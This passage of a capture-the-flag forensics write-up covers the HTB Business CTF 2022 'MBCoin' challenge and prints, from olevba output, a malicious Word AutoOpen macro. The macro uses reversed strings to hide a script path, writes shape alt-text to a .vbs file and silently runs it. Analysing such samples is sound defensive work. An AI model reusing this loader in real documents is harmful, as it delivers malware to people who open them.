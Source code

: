 # HTB Business CTF 2022 - MBCoin

## Challenge

> We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.

- [forensics_mbcoin.zip](files/forensics_mbcoin.zip)
  - `mbcoin.doc`
  - `mbcoin.pcapng`

### Metadata

- Difficulty: `medium`
- Tags: `macro`, `vba`, `xor`, `dll`, `pcap`, `rundll32.exe`
- Points: `325`
- Number of solvers: `tbd`

## Solution

### A macro

First, we can start with `mbcoin.doc` as in `Lina's Invitation`.

`Olevba` shows that there is an `AutoOpen` macro in the document:

```bash
$ olevba mbcoin.doc
olevba 0.56 on Python 3.10.5 - http://decalage.info/python/oletools
===============================================================================
FILE: mbcoin.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: mbcoin.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO bxh.bas
in file: mbcoin.doc - OLE stream: 'Macros/VBA/bxh'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))

    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
```